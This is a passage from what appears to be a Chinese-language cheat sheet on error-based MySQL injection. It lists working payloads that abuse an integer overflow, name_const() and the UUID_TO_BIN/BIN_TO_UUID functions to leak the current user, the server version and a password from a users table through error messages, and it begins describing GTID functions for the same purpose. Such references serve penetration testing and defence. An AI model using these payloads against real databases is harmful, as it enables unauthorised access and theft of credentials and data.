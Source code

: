 若此数参与运算，则很容易会错误。



payload: `select !(select * from(select user())a)-~0;`



#### name_const()



仅可取数据库版本信息



payload: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`



#### uuid相关函数



适用版本：8.0.x



参数格式不正确。



```sql
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```



#### GTID相关函数



**GTID**
GTID是MySQL数据库每次提交事务后生成的一个全局事务标识符，GTID不仅在本服务器上是唯一的，其在复制拓扑中也是唯一的



```plain
GTID的表现形式 -> GTID  =source_id:transaction_id其中source_id一般为数据库的uuid，transaction_id为事务ID，从1开始 3E11FA47-71CA-11E1-9E33-C80AA9429562:23如上面的GTID可以看出该事务为UUID为 3E11FA47-71CA-11E1-9E33-C80AA9429562的数据库的23号事务
```



**GTID集合**(一组全局事务标识符)：
GTID集合为多个单GTID和一个范围内GTID的集合，他主要用于如下地方



- gtid_executed 系统变量
- gtid_purged系统变量
- GTID_SUBSET() 和 GTID_SUBTRACT()函数



格式如下：



```plain
3E11FA47-71CA-11E1-9E33-C80AA9429562:1-5
```
